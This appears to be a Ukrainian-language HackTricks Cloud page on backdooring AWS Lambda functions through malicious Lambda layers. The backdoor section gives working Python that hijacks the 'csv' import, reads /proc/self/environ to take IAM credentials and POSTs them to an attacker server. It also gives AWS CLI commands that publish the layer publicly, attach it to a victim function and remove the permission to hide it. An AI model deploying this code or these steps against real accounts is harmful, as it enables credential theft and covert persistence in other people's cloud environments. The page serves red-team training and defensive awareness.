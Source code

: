 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Слой Lambda - це архів .zip, який **може містити додатковий код** або інший вміст. Слой може містити бібліотеки, [кастомний середовище виконання](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), дані або конфігураційні файли.

Можна включити до **п'яти шарів на функцію**. Коли ви включаєте шар у функцію, **вміст витягується до каталогу `/opt`** в середовищі виконання.

За **замовчуванням** створені вами **шари** є **приватними** для вашого облікового запису AWS. Ви можете вибрати **поділитися** шаром з іншими обліковими записами або **зробити** шар **публічним**. Якщо ваші функції використовують шар, опублікований іншим обліковим записом, ваші функції можуть **продовжувати використовувати версію шару після його видалення або після відкликання вашого дозволу на доступ до шару**. Однак ви не можете створити нову функцію або оновити функції, використовуючи видалену версію шару.

Функції, розгорнуті як контейнерне зображення, не використовують шари. Натомість ви упаковуєте ваше улюблене середовище виконання, бібліотеки та інші залежності в контейнерне зображення під час його створення.

### Python load path

Шлях завантаження, який Python буде використовувати в lambda, є наступним:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Перевірте, як **другу** та третю **позиції** займають каталоги, де **lambda layers** розпаковують свої файли: **`/opt/python/lib/python3.9/site-packages`** та **`/opt/python`**

{% hint style="danger" %}
Якщо зловмисник зміг **внедрити** використану **lambda layer** або **додати одну**, яка буде **виконувати довільний код, коли завантажується загальна бібліотека**, він зможе виконувати шкідливий код з кожним викликом lambda.
{% endhint %}

Отже, вимоги такі:

* **Перевірте бібліотеки**, які **завантажуються** кодом жертви
* Створіть **проксі-бібліотеку з lambda layers**, яка буде **виконувати користувацький код** та **завантажувати оригінальну** бібліотеку.

### Завантажені бібліотеки

{% hint style="warning" %}
Коли я зловживав цією технікою, я зіткнувся з труднощами: деякі бібліотеки **вже завантажені** в середовищі виконання python, коли ваш код виконується. Я очікував знайти такі речі, як `os` або `sys`, але **навіть бібліотека `json` була завантажена**.\
Щоб зловживати цією технікою збереження, код повинен **завантажити нову бібліотеку, яка не завантажена**, коли код виконується.
{% endhint %}

З таким python-кодом можна отримати **список бібліотек, які попередньо завантажені** в середовищі виконання python в lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
І це **список** (перевірте, що такі бібліотеки, як `os` або `json`, вже є)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
І це список **бібліотек**, які **lambda включає за замовчуванням**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Задня дверка в Lambda Layer

У цьому прикладі припустимо, що цільовий код імпортує **`csv`**. Ми будемо **додавати задню дверку до імпорту бібліотеки `csv`**.

Для цього ми створимо директорію csv з файлом **`__init__.py`** в ній у шляху, який завантажується lambda: **`/opt/python/lib/python3.9/site-packages`**\
Тоді, коли lambda буде виконана і спробує завантажити **csv**, наш **файл `__init__.py` буде завантажений і виконаний**.\
Цей файл повинен:

* Виконати наш payload
* Завантажити оригінальну бібліотеку csv

Ми можемо зробити обидва з:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Тоді створіть zip з цим кодом за шляхом **`python/lib/python3.9/site-packages/__init__.py`** і додайте його як шар lambda.

Ви можете знайти цей код за посиланням [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Інтегрований payload **надішле IAM креденціали на сервер ПЕРШИЙ РАЗ, коли його викликають, або ПІСЛЯ скидання контейнера lambda** (зміна коду або холодна lambda), але **інші техніки** такі як наступні також можуть бути інтегровані:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Зовнішні шари

Зверніть увагу, що можливо використовувати **шари lambda з зовнішніх облікових записів**. Більше того, lambda може використовувати шар з зовнішнього облікового запису, навіть якщо у нього немає дозволів.\
Також зверніть увагу, що **максимальна кількість шарів, які може мати lambda, становить 5**.

Отже, для покращення універсальності цієї техніки зловмисник може:

* Задній доступ до існуючого шару користувача (нічого не є зовнішнім)
* **Створити** **шар** у **своєму обліковому записі**, надати **обліковому запису жертви доступ** до використання шару, **налаштувати** **шар** у Lambda жертви та **видалити дозвіл**.
* **Lambda** все ще зможе **використовувати шар**, а **жертва не** матиме жодного простого способу **завантажити код шарів** (окрім отримання rev shell всередині lambda)
* Жертва **не побачить зовнішні шари**, використані з **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
